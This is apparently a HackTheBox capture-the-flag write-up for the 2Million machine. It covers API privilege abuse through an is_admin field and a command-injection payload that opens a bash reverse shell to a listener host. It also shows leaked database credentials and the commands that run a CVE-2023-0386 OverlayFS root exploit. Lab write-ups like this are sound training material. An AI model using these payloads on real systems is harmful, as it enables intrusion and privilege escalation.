# 2Million – Writeup (Easy)

**Machine:** 2Million  
**Difficulty:** Easy                                  
**Tech Used:** Nmap, BurpSuite, JavaScript Deobfuscation, Base64 decoding, API abuse, MySQL, OverlayFS CVE-2023-0386, Linux privilege escalation  
**Objective:** Bypass an invitation system, escalate to admin privileges via API manipulation, extract credentials, and exploit a kernel vulnerability to gain root.

---

## Overview

2Million is a easy-difficulty HackTheBox machine focused heavily on web API manipulation, reversing obfuscated frontend JavaScript, and exploiting misconfigured admin functions.  
After gaining initial dashboard access, the machine contains a second hidden environment mimicking older HTB infrastructure, eventually leading to privilege escalation through a known OverlayFS vulnerability.

---

## Enumeration

### Nmap Scan:

I scanned the target and found ports 80 and 22 open:



Navigating to port 80 redirected to http://2million.htb, so I updated /etc/hosts.

### Website Analysis:



Visiting the page showed a few different sections to explore in the nav bar but I focused on the About, Invite, and Login page.
I tried running dirsearch and ffuf but did not reveal anything useful.

The Invite section stated that users must “hack their way in,” indicating client-side logic involvement.
Viewing page source revealed:

```bash
/api/v1/invite/verify
```



The code suggests the invite code would be stored in localStorage and used during registration.
A referenced script contained further logic:



```bash
/js/inviteapi.min.js
```

This JavaScript file was obfuscated. 



I deobfuscated it using https://lelinhtinh.github.io/de4js/.
Inside the deobfuscated code I found:
  - The invite generation function
  - The API endpoint '/api/v1/invite/how/to/generate'



### Generating the Invite Code:

Using BurpSuite, I sent a POST request to:
```bash
/api/v1/invite/generate
```

and the endpoint responded with a code. (**Note:** I ended up generating a new code, it is not shown in the screenshot.)



The response format indicated base64 encoding. Decoding the code using base64decode.org, returned the invite code:

```makefile
7N5H7-F3XJM-5P6A3-YOF8K
```

### Registering the Account:
The registration form blocked manual invite-code modification, so I injected it into localStorage:



Reloading the page updated the invite code and allowed me to create an account.



After logging in, I reached the user dashboard.



### API Exploration & Admin Escalation:

Navigating through the UI eventually brought me to a Labs page -> Home/Access -> Generate VPN.

Intercepting traffic in BurpSuite revealed a useful endpoint:
```bash
/api/v1/user/vpn/regenerate
```

Probing further into /api/v1/ returned extended API details.



I attempted a PUT request to:
```bash
/api/v1/admin/setting/update
```

The server responded with errors indicating missing parameters.
I added the content type:
```makefile
Content-Type: application/json
```

Then submitted:
```json
{"email": "jane@doe.com"}
```

After adding my fake email, the server then required 'is_admin'.

I added:
```json
{"is_admin": 1}
```



My account now had admin privileges. Using admin access, I sent a GET request to /api/v1/admin/vpn/generate
using BurpSuite. Providing my username returned a valid VPN key. I tried connecting to the VPN but was unsuccessful.



## Initial Foothold

Testing the username field further in BurpSuite revealed command injection.



I started a listener and injected a reverse shell using the following payload:
```json
{
  "username": "janedoe; bash -c 'bash -i >& /dev/tcp/10.10.15.168/4444 0>&1' #"
}
```

I received a shell and upgraded it with:
```bash
script /dev/null -c bash
```

### Credential Discovery:

Searching the filesystem, I found credientals for admin in /html/.env:

```makefile
DB_HOST=127.0.0.1
DB_DATABASE=htb_prod
DB_USERNAME=admin
DB_PASSWORD=SuperDuperPass123
```

I logged into MySQL as the user 'admin' and discovered:
  - Users
  - Emails
  - Password hashes
  - Invite codes



Exploring the filesystem more, I discovered a /mail folder for admin. Inside, I found mail discussing kernel vulnerabilities in OverlayFS/FUSE.

## Privilege Escalation

Using the admin credentials found earlier, I signed in to SSH and obtained the user flag.



Research identified CVE-2023-0386, a Linux kernel OverlayFS vulnerability allowing privilege escalation through improper handling of setuid-capable files copied across mounts.

A GitHub PoC by puckiestyle provided a reliable exploit.

I cloned the repository and compiled it:
```bash
make all
```

The exploit required two SSH sessions.

Terminal 1:
```bash
./fuse ./ovlcap/lower ./gc
```

Terminal 2:
```bash
./exp
```



This granted a root shell.
I navigated to /root and retrieved the final flag.



## Conclusion

2Million demonstrates:
  - Enumerating and reversing obfuscated client-side code
  - Exploiting hidden APIs and misconfigured privilege checks
  - Escalating to admin privileges through crafted JSON requests
  - Leveraging command injection for remote code execution
  - Enumerating system credentials and services
  - Exploiting a kernel-level OverlayFS vulnerability (CVE-2023-0386) to achieve full root
